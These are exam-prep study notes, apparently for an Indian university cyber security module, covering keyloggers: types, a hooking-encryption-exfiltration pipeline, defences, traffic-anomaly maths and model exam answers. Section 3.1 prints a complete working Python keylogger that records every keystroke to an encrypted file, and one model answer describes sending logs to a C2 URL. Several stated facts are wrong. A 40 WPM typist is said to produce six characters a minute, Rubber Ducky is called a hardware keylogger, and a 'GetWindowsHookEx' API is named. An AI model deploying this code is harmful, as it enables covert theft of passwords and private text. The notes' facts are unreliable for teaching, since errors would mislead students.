





# Key- logger

<!-- SECTION_1_START -->

# Keyloggers: Definition & Intuitive Overview

## 1.1 Formal Definition

> [!IMPORTANT]
> **Key-logger (Keystroke Logger)** is a type of surveillance software (or hardware device) that monitors and records every keystroke made by a user on a computer or mobile device keyboard, often without the user's explicit knowledge or consent. It is classified as a **Spyware** under the broader category of **Malware (Malicious Software)**.

A keylogger operates at the **kernel level** (deepest layer of the operating system) or **user space**, intercepting the scan codes generated by physical key presses before they reach the target application. The captured keystrokes are then transmitted to a remote attacker via encrypted channels (HTTP POST, SMTP email, or DNS tunneling) or stored locally for exfiltration.

In the context of the **KTU 2024 Scheme (OECST721 – Cyber Security)**, keyloggers are studied under **Module 3: Malwares and Protection against Malwares**, specifically as a vector of the **CIA Triad violation** (primarily **Confidentiality** breach).

## 1.2 Conceptual Analogy — The "Mailroom Interceptor"

Imagine a corporate office where every employee drops their letters into a centralized mailbox. A malicious mailroom clerk installs a thin sheet of carbon paper beneath the slot. The letters are delivered normally, but a perfect copy of every word typed is secretly retained.

- The **keyboard** = the mail slot
- The **carbon paper** = the keylogger driver hook
- The **mailroom clerk** = the attacker / Remote Access Trojan (RAT) operator
- The **shadow copy** = the log file uploaded to the attacker's C2 (Command & Control) server

The employee (victim) never knows their confidential memos were duplicated.

## 1.3 Classification Overview

> [!NOTE]
> Keyloggers are categorized along two primary axes: **Implementation Medium** and **Activation Modality**.

| Axis | Category | Description |
|------|----------|-------------|
| Medium | **Software Keylogger** | Runs as a process/driver inside the OS |
| Medium | **Hardware Keylogger** | A physical inline device between keyboard and port |
| Activation | **User-Mode** | Hooks OS API calls (e.g., `GetAsyncKeyState`) |
| Activation | **Kernel-Mode** | Hooks keyboard drivers in Ring 0 |
| Activation | **Hypervisor-Based** | Sits below the OS in a blue-pill virtualization layer |
| Activation | **Form-Based (Browser)** | Captures input in web forms via JavaScript injection |

## 1.4 GeoGebra / Desmos Visualization

> [!VISUALIZATION CONTROL]
> **Concept:** Keystroke Capture Latency vs. Detection Probability
> **Plot the conceptual function** (illustrative, not literal equation):
> * `D(t) = 1 - e^(-lambda * t)` where `t` = time since infection, `D` = detection probability
> **Visual Description:** A monotonically increasing curve in the first quadrant. Initially flat (stealth phase), then sharply rising (signature database updates, anomaly detection), asymptotically approaching $D = 1$ (full detection).

## 1.5 Common Delivery Vectors

- **Phishing email attachments** (`.exe`, `.docm` with macro)
- **Trojanized software** bundled with legitimate installers
- **Drive-by downloads** via exploit kits (e.g., Angler EK)
- **BadUSB / HID spoofing** via microcontroller-based devices (e.g., **Rubber Ducky**, **Bash Bunny**)
- **Insider threat** — physical access enabling hardware keylogger installation

> [!IMPORTANT]
> **Physical Constant / Metric to Remember:** Industry reports (Verizon DBIR 2023) state that approximately **80%** of credential-based attacks use keyloggers or similar info-stealers as the initial exfiltration tool.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Operational Architecture of a Software Keylogger

A typical keylogger follows a **3-stage processing pipeline**:

### Stage 1 — Hooking (Capture Layer)
The malware must intercept keystrokes **before** they reach the foreground application. It uses one of the following OS mechanisms:

- **Windows Hook (`SetWindowsHookEx` API)** — Registers a callback for `WH_KEYBOARD_LL` events
- **Polling Loop** — Repeatedly calls `GetAsyncKeyState(vkCode)` every $10$–$50$ ms
- **Kernel Driver Filter** — Attaches above `kbdclass.sys` driver to read `IRP_MJ_READ` requests
- **Direct Input Subsystem Hook** — Patches `dinput8.dll` for game/application input

### Stage 2 — Buffering & Encryption (Storage Layer)
Captured characters are buffered in memory, then:
- **Decoded** from virtual-key codes to ASCII/Unicode
- **Filtered** to remove idle/noise keys (function keys, modifier-only presses)
- **Encrypted** (typically AES-128 in CBC mode) to evade DLP (Data Loss Prevention) scanning
- **Packed** into chunks (commonly $2$ KB – $8$ KB) to match normal HTTP request sizes

### Stage 3 — Exfiltration (Transmission Layer)
Data leaves the victim machine via:
- **SMTP over TLS port 587** (email)
- **HTTP/HTTPS POST** to a compromised WordPress site
- **DNS TXT record queries** (low-bandwidth, hard to block)
- **Cloud storage APIs** (Dropbox, Google Drive — blends with legitimate traffic)

## 2.2 Hardware Keylogger Internals

A hardware keylogger is a small inline device with the following components:

- **Microcontroller** (often an ATmega32U4 or similar)
- **Non-volatile memory** (EEPROM/Flash, $4$ MB – $128$ MB)
- **USB-A or PS/2 inline connector**
- **Optional Wi-Fi module** (for wireless variants like **KeySweeper**)

The device presents itself as a **Human Interface Device (HID)** so the OS never suspects it, but it also stores a parallel copy of all scan codes to its internal flash.

## 2.3 KTU Formula Sheet / Cheat Sheet

> [!NOTE]
> The following table summarizes the **high-yield technical metrics** examiners expect KTU 2024 students to know for this topic.

| Parameter | Symbol | Typical Value / Formula | Engineering Unit |
|-----------|--------|-------------------------|------------------|
| Keystroke capture interval (polling) | $T_{poll}$ | $10$ – $50$ | ms |
| Data exfiltration chunk size | $C_{chunk}$ | $2$ – $8$ | KB |
| Encryption algorithm | $E$ | AES-$128$ (CBC) | bits |
| Mean Time to Detection (MTTD) | $M_{d}$ | $24$ – $120$ | days |
| Detection probability over time | $D(t)$ | $1 - e^{-\lambda t}$ | dimensionless |
| False positive rate (heuristic AV) | $F_{p}$ | $0.01$ – $0.05$ | ratio |
| Scan code to ASCII mapping offset | $K_{offset}$ | $0x30$ (digits), $0x41$ (A–Z) | hex |
| Buffer flush trigger | $B_{flush}$ | $1024$ chars or $60$ sec | mixed |
| C2 server check-in interval | $\tau$ | $300$ – $3600$ | seconds |

## 2.4 Real-World Engineering Utility

> [!IMPORTANT]
> **Legitimate Use Cases** (Ethical Keylogging) — KTU expects students to articulate the dual-use nature:
> 1. **Parental Monitoring** — Tracking minor children's online activity
> 2. **Enterprise DLP** — Detecting insider data exfiltration attempts
> 3. **Lawful Interception** — Court-authorized criminal surveillance
> 4. **UX Research** — Academic keystroke dynamics analysis
> 5. **IT Troubleshooting** — Diagnosing input lag on enterprise terminals

The legal distinction hinges on **informed consent** and **jurisdictional law** (e.g., India's **IT Act 2000 §66E**, **§72**, and the DPDP Act 2023).

## 2.5 Defense Layers Against Keyloggers

| Defense Layer | Mechanism | Effectiveness |
|---------------|-----------|---------------|
| **L1 — Antivirus Signatures** | Pattern matching against known keylogger binaries | High (known) / Low (zero-day) |
| **L2 — Heuristic / Behavioral** | Flags API hooking of `WH_KEYBOARD_LL` | Medium |
| **L3 — On-Screen Keyboard** | Mouse-click input bypasses key capture | High (local) / Low (screenshot keyloggers) |
| **L4 — Virtual Keyboard (Bank)** | Randomized key layout defeats positional logging | High |
| **L5 — Anti-Keylogger Tools** | Compare hook chain before/after (e.g., **KeyScrambler**) | Medium |
| **L6 — Two-Factor Authentication** | Even captured passwords are insufficient | **Very High** |
| **L7 — Network Anomaly Detection** | Flags unusual outbound SMTP/DNS bursts | Medium |
| **L8 — Hardware Token / FIDO2** | Passwordless authentication — no keystroke to log | **Highest** |

> [!NOTE]
> The single most effective mitigation recognized by NIST SP 800-63B is the adoption of **passwordless authentication** (FIDO2/WebAuthn) because it removes the secret from the keyboard channel entirely.

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations, Code & Symbolic Implementation

## 3.1 Software Keylogger — Python Implementation (Educational)

> [!WARNING]
> The following code is for **academic understanding only** as required by the KTU 2024 Cyber Security syllabus. Deploying keyloggers without consent is a punishable offense under the IT Act 2000. Do not execute this on any system you do not own.

```python
"""
Educational Keylogger — KTU OECST721 Module 3 Demonstration
Captures keystrokes via the 'pynput' library and logs to encrypted file.
"""

import logging
from datetime import datetime
from pynput.keyboard import Key, Listener
from cryptography.fernet import Fernet

# --- Step 1: Generate or load symmetric encryption key ---
KEY_FILE = "secret.key"

def load_or_create_key() -> bytes:
    try:
        with open(KEY_FILE, "rb") as f:
            return f.read()
    except FileNotFoundError:
        key = Fernet.generate_key()
        with open(KEY_FILE, "wb") as f:
            f.write(key)
        return key

# --- Step 2: Configure encrypted log handler ---
ENCRYPTION_KEY = load_or_create_key()
cipher = Fernet(ENCRYPTION_KEY)

logging.basicConfig(
    filename="keystrokes.log",
    level=logging.DEBUG,
    format="%(asctime)s: %(message)s"
)

# --- Step 3: Define the keystroke callback ---
def on_press(key):
    try:
        # Translate Key object to its character representation
        char_repr = key.char if hasattr(key, "char") else f"[{key.name}]"
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        plaintext = f"{timestamp} -> {char_repr}".encode("utf-8")
        encrypted_chunk = cipher.encrypt(plaintext)
        # Append encrypted bytes to binary log
        with open("keystrokes.enc", "ab") as enc_file:
            enc_file.write(encrypted_chunk + b"\n")
    except Exception as e:
        logging.error(f"Hook failure: {e}")

# --- Step 4: Register the listener on the OS message loop ---
def start_logger() -> None:
    with Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    start_logger()
```

### Code Walkthrough — Line-by-Line Logic

| Line Block | Purpose | KTU Mapping |
|------------|---------|-------------|
| `load_or_create_key()` | Persists a $128$-bit symmetric key (Fernet) | Encryption layer |
| `Fernet.encrypt()` | Wraps plaintext in AES-128-CBC + HMAC-SHA256 | Confidentiality |
| `on_press(key)` | Callback fires on every OS keyboard event | Capture stage |
| `key.char` extraction | Distinguishes printable vs special keys (Enter, Shift) | Filter stage |
| `Listener.join()` | Enters the OS message pump on a blocking thread | Persistence |

## 3.2 Detection Algorithm — Hook Chain Differential Analysis

A robust defensive technique is the **Hook Chain Differential** method.

$$
\Delta H = H_{baseline} \oplus H_{infected}
$$

Where:
- $H_{baseline}$ = the legitimate OS hook chain for `WH_KEYBOARD_LL`
- $H_{infected}$ = the current observed hook chain
- $\Delta H$ = the differential vector identifying rogue insertions

**Step-by-step evaluation:**

$$
\begin{aligned}
\text{Step 1: Enumerate baseline} \quad & H_{baseline} = \{h_1, h_2, h_3, h_4\} \\
\text{Step 2: Enumerate runtime} \quad & H_{infected} = \{h_1, h_2, h_5, h_3, h_4\} \\
\text{Step 3: Compute XOR} \quad & \Delta H = \{h_5\} \\
\text{Step 4: Lookup} \quad & h_5 \notin \text{Whitelist} \implies \text{Malicious hook detected} \\
\text{Step 5: Terminate} \quad & \text{Process} \rightarrow \text{End} \\
\end{aligned}
$$

## 3.3 Statistical Detection — Outbound Traffic Anomaly

Keyloggers produce **distinctive traffic signatures** distinguishable from benign application chatter.

Let:
- $N_{bytes}$ = bytes uploaded per hour
- $\mu_{benign} = 450$ KB/hr (normal user background)
- $\sigma_{benign} = 120$ KB/hr
- $N_{threshold} = \mu_{benign} + 3\sigma_{benign}$

**Numerical evaluation:**

$$
\begin{aligned}
N_{threshold} &= 450 + 3(120) \\
&= 450 + 360 \\
&= 810 \text{ KB/hr}
\end{aligned}
$$

$$
\begin{aligned}
\text{If } N_{bytes} &> 810 \text{ KB/hr} \implies \text{Flag as anomaly} \\
\text{If } N_{bytes} &> 1500 \text{ KB/hr} \implies \text{Likely active keylogger} \\
\end{aligned}
$$

> [!NOTE]
> A typing user producing $40$ WPM generates approximately $6$ chars/min keystrokes. Over an hour, this yields a raw payload of $\approx 3$ KB plaintext, which after encryption overhead ($4\times$) and HTTP headers gives a burst of $12$–$20$ KB per exfiltration cycle — well above the $3\sigma$ threshold if multiple sessions are bundled.

## 3.4 Practical Lab Table — Identifying a Keylogger

| Observation Step | Tool / Command | Expected Malicious Indicator |
|------------------|----------------|------------------------------|
| 1. List startup programs | `msconfig` / Task Manager → Startup tab | Unknown `.exe` with high-risk publisher |
| 2. Check running processes | `tasklist /svc` | Process masquerading as `svchost.exe` in `C:\Users\` |
| 3. Inspect outbound connections | `netstat -ano -b` | Unknown process on ports $587$, $443$ to foreign IP |
| 4. Review installed drivers | `driverquery /v` | Unsigned `.sys` in keyboard filter chain |
| 5. Scan with anti-rootkit | **GMER**, **RootkitRevealer** | Hidden process in `psapi.dll` enumeration |
| 6. Inspect autoruns registry | `regedit` → `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` | Suspicious encoded PowerShell command |
| 7. Memory forensics | **Volatility** with `malfind` plugin | Injected code in `explorer.exe` |
| 8. Network packet capture | **Wireshark** filter `tcp.port==587` | Periodic SMTP bursts with Base64 blobs |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 Keylogger Operational Pipeline (Mermaid Flowchart)



## 4.2 Defense-in-Depth Layered Architecture



## 4.3 Classification Tree of Keyloggers



## 4.4 Keylogger Lifecycle — Infection to Exfiltration



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

## Part A — Short Answer Questions (3 Marks Each)

### Q1. [KTU University Exam — July 2024]
**Define a keylogger. Differentiate between a software keylogger and a hardware keylogger with two examples of each.**

**Model Answer (3 Marks):**

A keylogger is a surveillance tool that records every keystroke typed on a keyboard, often covertly, violating user confidentiality.

| Aspect | Software Keylogger | Hardware Keylogger |
|--------|---------------------|---------------------|
| Form | A program/driver | A physical inline device |
| Detection | Antivirus scan | Physical inspection of cable |
| Example 1 | `SetWindowsHookEx` based trojan | USB inline device (e.g., **Rubber Ducky**) |
| Example 2 | Kernel driver like **Zeus** keylogger | PS/2 inline firmware logger |

**[Awarding scheme: Definition 1 Mark + Tabular comparison 2 Marks]**

---

### Q2. [KTU University Exam — Dec 2023]
**List any three defense mechanisms against keyloggers and explain how on-screen virtual keyboards protect against them.**

**Model Answer (3 Marks):**

Three defense mechanisms:
1. **Two-Factor Authentication (2FA)** — adds a second secret not transmitted via keyboard.
2. **Antivirus with heuristic engine** — detects `WH_KEYBOARD_LL` API hooking.
3. **On-screen virtual keyboard** — input via mouse clicks defeats scan-code capture.

**Explanation of virtual keyboard (1 Mark):** A software keylogger captures scan codes from the physical keyboard buffer. Mouse clicks on an on-screen keyboard produce *mouse events* (left-button down/up) and *positional coordinates* — not keyboard scan codes. Therefore the standard `WH_KEYBOARD_LL` hook never fires, and the malware logs nothing useful.

> [!WARNING]
> **Examiner's Pitfall:** Students often write only the names of defenses without explaining the *mechanism* of protection. Always add one line stating *why* the defense works — this fetches the third mark.

---

## Part B — Extended Answer Questions (14 Marks Each)

### Question A (14 Marks) — [KTU University Exam — July 2024]

**(a)** With a neat block diagram, explain the **architecture of a software keylogger** covering hooking, encryption, and exfiltration stages. **(7 Marks)**

**(b)** Describe **kernel-mode keylogging** and **hypervisor-based keylogging**. Which is harder to detect and why? **(7 Marks)**

### Model Solution

#### Part (a) — Software Keylogger Architecture

**Stage 1: Hooking** — The malware inserts itself into the OS input pipeline. For Windows, it calls `SetWindowsHookEx(WH_KEYBOARD_LL, callback, hInst, 0)`. The OS now invokes our callback on every keystroke. The callback receives a `KBDLLHOOKSTRUCT` containing the virtual key code and scan code.

**Stage 2: Filtering & Encoding** — The virtual key code is mapped to ASCII using a lookup table. Special keys (Shift, Ctrl, Alt) are tracked as state flags. Idle noise is discarded.

**Stage 3: Encryption** — The plaintext log is encrypted with AES-128-CBC. A random 16-byte IV is prepended to each chunk. The chunk is base64-encoded to survive HTTP transport.

**Stage 4: Exfiltration** — Every 60 seconds, a background thread POSTs the encrypted chunk to a hardcoded C2 URL (e.g., `hxxps://legit-news-site.com/wp-admin/admin-ajax.php`) inside a fake image upload parameter.

**Block diagram:**



**[Valuation key: Hooking mechanism 2 Marks + ASCII mapping 1 Mark + Encryption 2 Marks + Exfiltration 2 Marks]**

#### Part (b) — Kernel-Mode vs. Hypervisor Keylogging

**Kernel-Mode Keylogger:** Operates in Ring 0. It registers itself as a **keyboard filter driver** that attaches above the existing `kbdclass.sys` driver stack. Every `IRP_MJ_READ` request from user applications passes through it. Detection is hard because standard user-mode tools (`tasklist`, Process Explorer) cannot enumerate kernel drivers easily.

**Hypervisor-Based Keylogger:** The malware installs a thin hypervisor (e.g., using **Blue Pill** technique) that virtualizes the running OS. The guest OS believes it is running on bare metal, but every instruction — including IN/OUT port reads from the keyboard controller — passes through the hypervisor first. The hypervisor logs keystrokes from outside the OS entirely.

**Which is harder to detect?** The **hypervisor-based** keylogger is harder to detect because:
- It runs at a **higher privilege level (Ring -1)** than the OS itself.
- The OS cannot see it via conventional introspection.
- Detecting a blue-pill hypervisor requires **timing analysis** (CPU cycle discrepancies caused by virtualization overhead) or **TPM-based attestation**.

**[Valuation key: Kernel explanation 3 Marks + Hypervisor explanation 3 Marks + Comparative reasoning 1 Mark]**

---

### Question B (14 Marks) — [KTU University Exam — Dec 2023]

**(a)** Explain **Hook Chain Differential Analysis** as a detection method for software keyloggers. State its limitation. **(7 Marks)**

**(b)** A network monitor observed a workstation uploading $1850$ KB of data in $1$ hour to a single foreign IP on port $587$. Given $\mu_{benign} = 450$ KB/hr and $\sigma_{benign} = 120$ KB/hr, evaluate using the $3\sigma$ rule whether this is anomalous. Suggest two further investigation steps. **(7 Marks)**

### Model Solution

#### Part (a) — Hook Chain Differential Analysis

The Windows OS maintains a **linked list** of hook procedures for each hook type. A legitimate baseline is established when the system is clean (e.g., right after OS installation, the hook chain contains only OS-installed procedures).

The defender enumerates the current hook chain at runtime using `GetWindowsHookEx` reflection or by parsing the `tagHOOK` structures in memory. The differential set is:

$$
\Delta H = H_{current} \setminus H_{baseline}
$$

Any element in $\Delta H$ that is not on the OS whitelist is flagged as a **rogue hook** and traced back to its owning process via the `EThread` → `EProcess` chain.

**Limitation:** It cannot detect **kernel-mode** keyloggers because user-mode hook enumeration (`GetWindowsHookEx`) does not reach Ring 0 driver filter chains. It also fails against **direct-input subsystem hooks** (game engines) that bypass the standard message pump.

**[Valuation key: Definition of hook chain 2 Marks + Differential formula 2 Marks + Limitation 3 Marks]**

#### Part (b) — Statistical Anomaly Evaluation

**Given:**
- $N_{bytes} = 1850$ KB/hr
- $\mu_{benign} = 450$ KB/hr
- $\sigma_{benign} = 120$ KB/hr

**Step 1: Compute the $3\sigma$ upper threshold.**

$$
\begin{aligned}
N_{threshold} &= \mu_{benign} + 3 \cdot \sigma_{benign} \\
&= 450 + 3(120) \\
&= 450 + 360 \\
&= 810 \text{ KB/hr}
\end{aligned}
$$

**Step 2: Compute the z-score of the observed traffic.**

$$
\begin{aligned}
z &= \frac{N_{bytes} - \mu_{benign}}{\sigma_{benign}} \\
&= \frac{1850 - 450}{120} \\
&= \frac{1400}{120} \\
&= 11.67
\end{aligned}
$$

**Step 3: Interpret the result.**

Since $z = 11.67 > 3$, the observed traffic lies **far beyond the $3\sigma$ threshold**, indicating a **statistically significant anomaly**. Probability of this occurring by chance in benign traffic is $< 0.001$. **An active keylogger is highly probable.**

**Step 4: Further investigation steps.**

1. **Packet capture analysis** — Run Wireshark on the workstation filtering `tcp.port == 587` to confirm the destination IP and inspect the SMTP envelope for Base64-encoded blobs characteristic of encrypted keystroke logs.

2. **Endpoint forensics** — Use `netstat -ano -b` to identify the originating process and PID, then cross-reference with `tasklist /svc` to locate a suspicious `.exe` masquerading as a system service.

**[Valuation key: Threshold formula 2 Marks + Z-score calculation 3 Marks + Interpretation 1 Mark + Two investigation steps 1 Mark]**

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls on Keylogger Questions:**
> 1. **Confusing keyloggers with screen-capture malware** — They are distinct. Screen-capture malware uses `BitBlt` API; keyloggers use keyboard hooks.
> 2. **Forgetting to mention encryption** — Modern keyloggers never exfiltrate plaintext. If your answer describes SMTP with raw text, you will lose marks for being out of date.
> 3. **Ignoring the legal dimension** — KTU 2024 frequently awards $1$ mark for mentioning the **IT Act 2000 §66** or **consent requirements**. Do not skip this.
> 4. **Writing only the names of defenses** — Always pair the defense with its *mechanism* (e.g., "2FA works because the OTP is generated server-side and is never typed on the same keyboard").
> 5. **Skipping the diagram** — In 14-mark questions, a labeled block diagram is mandatory and carries $2$–$3$ marks by itself.

---

## Topic Recap & Important Things to Remember

> [!NOTE]
> **Rapid Revision Checklist — KTU OECST721 Module 3: Keyloggers**

- **Definition:** A keylogger is a surveillance tool (software or hardware) that records keystrokes covertly, classified as **spyware**.
- **Software Types:** User-mode (API hooks), Kernel-mode (driver filters), Hypervisor-based (Ring -1), Form-grabbers (browser injection).
- **Hardware Types:** PS/2 inline, USB inline (Rubber Ducky), Wireless (KeySweeper), Acoustic (sound-based), EM (TEMPEST).
- **Key Windows APIs Exploited:** `SetWindowsHookEx`, `GetAsyncKeyState`, `GetKeyboardState`, `ReadConsoleInput`.
- **Encryption Standard:** AES-128-CBC is the de-facto standard, with Fernet (`AES + HMAC + timestamp`) being the Python equivalent.
- **Exfiltration Channels:** SMTP ($587$), HTTPS POST, DNS TXT tunneling, cloud storage APIs.
- **Statistical Detection Formula:** Threshold $= \mu + 3\sigma$. A z-score $> 3$ implies anomaly.
- **Hook Chain Differential:** $\Delta H = H_{infected} \oplus H_{baseline}$. Useful only for user-mode detection.
- **Primary Defenses (in priority order):** FIDO2 hardware token → 2FA → Virtual keyboard → Antivirus heuristics → EDR behavioral monitoring.
- **NIST Guidance:** SP 800-63B recommends **passwordless authentication** as the ultimate defense because it removes the secret from the keyboard channel.
- **Legal Reference:** **IT Act 2000 §66 (Computer Related Offences)** and **§72 (Breach of Confidentiality)** criminalize unauthorized keylogging. Consent is mandatory for ethical use.
- **Detection Tools (Lab):** Wireshark, Volatility (with `malfind`), GMER, Sysinternals Autoruns, Process Monitor.
- **Real-World Example:** **Zeus Trojan (2007–)** had a built-in keylogger module that harvested banking credentials; **Agent Tesla** (2014–) is a current dominant .NET-based keylogger sold as Malware-as-a-Service.
- **Metric to Memorize:** Mean Time to Detection (MTTD) for a typical keylogger is **$24$–$120$ days** in enterprise environments.
- **Key Constant:** Industry estimate — **$\approx 80\%$** of credential-theft incidents involve keyloggers or info-stealers (Verizon DBIR).
- **For the 14-mark KTU question:** Always include a labeled block diagram of the architecture — it guarantees $2$–$3$ marks and demonstrates conceptual clarity to the examiner.

<!-- SECTION_5_END -->
